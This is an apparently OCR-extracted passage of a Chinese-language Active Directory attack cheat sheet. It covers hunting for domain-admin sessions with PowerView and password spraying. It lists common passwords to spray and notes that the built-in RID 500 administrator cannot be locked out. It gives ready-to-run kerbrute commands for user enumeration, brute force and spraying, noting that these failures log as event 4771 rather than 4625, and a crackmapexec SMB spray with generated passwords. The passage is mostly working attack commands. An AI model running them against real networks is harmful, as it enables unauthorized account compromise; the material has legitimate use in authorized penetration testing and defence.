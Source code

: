   ```ps1
  # 查找域管理员或指定用户有会话的计算机
  Invoke-UserHunter
  Invoke-UserHunter -GroupName "RDPUsers"
  Invoke-UserHunter -Stealth
  ```

## 密码喷洒

密码喷洒是指采用大量用户名和单个密码循环遍历的攻击方法。

> 内置管理员账户（RID：500）无论累积了多少次失败的登录尝试，都无法从系统中锁定。

大多数时候，最好的喷洒密码是：

- `P@ssw0rd01`、`Password123`、`Password1`、`Hello123`、`mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :`$Microsoft1`
- 季节年份：`Winter2019*`、`Spring2020!`、`Summer2018?`、`Summer2020`、`July2020!`
- 默认AD密码，简单的变异，如数字-1，特殊字符迭代（*，?，!，#）
- 空密码（哈希：31d6cfe0d16ae931b73c59d7e0c089c0）

### Kerberos预认证暴力破解

使用`kerbrute`工具执行Kerberos预认证暴力破解。

> Kerberos预认证错误不会在Active Directory中以正常的**登录失败事件（4625）**记录，而是以特定的日志记录到**Kerberos预认证失败（4771）**。

* 用户名暴力破解

  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```

* 密码暴力破解

  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```

* 密码喷洒

  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```

### 喷洒预先生成的密码列表

* 使用`crackmapexec`和`mp64`生成密码并对网络上的SMB服务进行喷洒。

  ```powershell
  crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
